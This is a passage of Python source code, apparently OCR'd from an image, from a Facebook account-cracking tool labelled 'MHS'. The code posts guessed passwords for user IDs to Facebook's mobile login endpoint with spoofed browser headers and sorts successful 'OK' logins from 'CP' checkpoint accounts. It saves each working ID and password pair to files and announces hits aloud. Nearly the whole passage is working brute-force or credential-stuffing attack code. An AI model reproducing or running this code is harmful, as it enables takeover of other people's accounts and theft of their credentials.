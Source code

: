             dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[10;93m\033[1;93m[\033[1;93mMHS-CP\033[1;93m] {idf} • {pw}')
                print('\x1b[38;5;50m============================')
                os.system('espeak -a 300 " CP, ID"')
                open('CP/'+CPc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                CP+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;93m[{time.strftime("%H:%M")}•MHS-OK] \033[1;93m{idf} • \033[1;93m{pw} ')
                print('\x1b[38;5;50m===============================================')
                os.system('espeak -a 300 " MHS,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                
            else:
                continue
        except requests.exceptions.ConnectionError:
            time.sleep(31)
    loop+=1
 
#-----------------------[ SYSTEM-CONTROL ]--------------------#
 
if __name__=='__main__':
    try:os.mkdir('OK')
    except:pass
    try:os.mkdir('CP')
    except:pass
    try:os.system('touch .prox.txt')
    except:pass
menu()
